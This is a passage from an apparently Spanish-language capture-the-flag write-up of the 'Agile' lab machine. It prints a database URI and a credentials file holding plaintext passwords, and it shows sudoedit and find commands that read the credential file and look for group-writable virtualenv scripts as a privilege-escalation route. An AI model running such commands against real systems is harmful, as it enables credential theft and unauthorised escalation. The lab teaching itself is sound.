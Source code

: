 ![](/Agile/Pasted_image_20230309122920.png)

~~~json
{
    "SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
}
~~~

Intentamos acceder al archivo creds.txt

~~~bash
sudo -u dev_admin sudoedit /app/app-testing/tests/functional/creds.txt
~~~

Su cotenido es:

![](/Agile/Pasted_image_20230309122823.png)

~~~
edwards:1d7ffjwrx#$d6qn!9nndqgde4
~~~


Verificamos cuales son los archivos que el usuario web_admin puede modificar 

~~~bash
find /  -user dev_admin 2>/dev/null | xargs ls -al --color
~~~

~~~bash
-rw-r----- 1 dev_admin runner      34 Mar 10 17:18 /app/app-testing/tests/functional/creds.txt
-r--r----- 1 dev_admin www-data    88 Jan 25 00:00 /app/config_prod.json
-r--r----- 1 dev_admin runner      99 Jan 25 15:15 /app/config_test.json
~~~

Verificamos que puede modificar el grupo dev_admin

~~~bash
find /  -group dev_admin 2>/dev/null | xargs ls -al --color
~~~

~~~bash
-rw-r--r-- 1 root      dev_admin 9033 Mar 10 17:21 /app/venv/bin/Activate.ps1
-rw-rw-r-- 1 root      dev_admin 1976 Mar 10 17:21 /app/venv/bin/activate
-rw-r--r-- 1 root      dev_admin  902 Mar 10 17:21 /app/venv/bin/activate.csh
-rw-r--r-- 1 root      dev_admin 2044 Mar 10 17:21 /app/venv/bin/activate.fish

/app/venv:
total 24
drwxrwxr-x 5 root dev_admin 4096 Feb  8 16:29 .
drwxr-xr-x 6 root root      4096 Feb  8 16:29 ..
drwxrwxr-x 2 root dev_admin 4096 Mar 10 17:21 bin
drwxrwxr-x 3 root root      4096 Feb  8 16:29 include
drwxrwxr-x 3 root root      4096 Feb  8 16:29 lib
lrwxrwxrwx 1 root root         3 Jan 25 17:21 lib64 -> lib
-rw-rw-r-- 1 root root        70 Jan 25 17:21 pyvenv.cfg

/app/venv/bin:
total 1380
drwxrwxr-x 2 root dev_admin    4096 Mar 10 17:21 .
drwxrwxr-x 5 root dev_admin    4096 Feb  8 16:29 ..
-rw-r--r-- 1 root dev_admin    9033 Mar 10 17:21 Activate.ps1
-rw-rw-r-- 1 root dev_admin    1976 Mar 10 17:21 activate
-rw-r--r-- 1 root dev_admin     902 Mar 10 17:21 activate.csh
-rw-r--r-- 1 root dev_admin    2044 Mar 10 17:21 activate.fish
-rwxrwxr-x 1 root root          213 Mar 10 17:21 flask
-rwxr-xr-x 1 root root          222 Jan 24 18:06 gunicorn
-rwxrwxr-x 1 root root          226 Mar 10 17:21 pip
-rwxrwxr-x 1 root root          226 Mar 10 17:21 pip3
-rwxrwxr-x 1 root root          226 Mar 10 17:21 pip3.10
-rwxrwxr-x 1 root root          226 Mar 10 17:21 py.test
~~~